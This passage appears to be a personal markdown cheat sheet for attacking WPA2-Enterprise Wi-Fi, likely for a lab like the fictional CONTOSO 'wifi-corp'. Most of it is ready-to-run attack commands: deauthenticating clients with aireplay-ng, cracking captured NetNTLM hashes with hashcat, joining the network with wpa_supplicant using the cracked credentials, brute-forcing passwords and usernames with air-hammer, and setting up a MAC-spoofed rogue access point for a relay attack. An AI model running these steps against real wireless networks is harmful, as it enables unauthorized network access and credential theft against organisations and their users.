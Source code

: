         airmon-ng start wlan1
        iwconfig wlan1mon channel 8964
        aireplay-ng -0 0 -a $BSSID1 wlan0mon -c $StationID

    // etc...

   ```
6. [If] certain station not work then try another stationID
7. [Success] --> grab hashcat Netntlm
8. ``` hashcat -a 0 -m 5500 juan.netntlmhash /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt --force ```
9. prep wpa2-mgt.conf
   ```
    network={
        ssid="wifi-corp"
        key_mgmt=WPA-EAP
        identity="CONTOSO\juan.tr"
        password="bulldogs1234"
        eap=PEAP
        phase2="auth=MSCHAPV2"
    }

   ``` 
10. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c wpa2-mgt.conf```
11. ``` sudo dhclient wlan3 ```
12. Try Login portal xxx.xxx.xxx.1 with identity and password 

### Brute force password with known user name 
- https://github.com/Wh1t3Rh1n0/air-hammer
1. ``` cd  /home/kali/Downloads/wifi-tools/air-hammer ```
2. prepare user list ``` echo 'CONTOSO\test' > test.user ```
3. GO FUCK!!! ``` ./air-hammer.py -i wlan3 -e wifi-corp -p /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt -u test.user ```

### Brute force username with know password
- https://github.com/Wh1t3Rh1n0/air-hammer
1. prepare domain tagged user list``` cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt ```
2. ``` cd  /home/kali/Downloads/wifi-tools/air-hammer ```
3. GO FUCK!!! ``` ./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt ```

## WPA 2 MGT - (relay attack) 
- Try this when password uncrackable 
- https://github.com/sensepost/berate_ap
- https://github.com/sensepost/wpa_sycophant 
1. Prepare fake AP with interface wlan1 and copy first 3 hex of the AP you want to fake
   ```
    systemctl stop network-manager
    airmon-ng stop wlan1mon
    ip link set wlan1 down
    macchanger -m F0:9F:C2:00:00:00 wlan1
    ip link set wlan1 up
   ```
2. prep ```wpa2-mgt-fake.conf``` for below [Shell 3] 
   - change ssid
   - Dont want to connect back to ourselves, so rogue BSSID in bssid_blacklist
   ```
   network={
        ssid="wifi-regional-tablets"
        scan_ssid=1
        key_mgmt=WPA-EAP
        identity=""
        anonymous_identity=""
        password=""
        eap=PEAP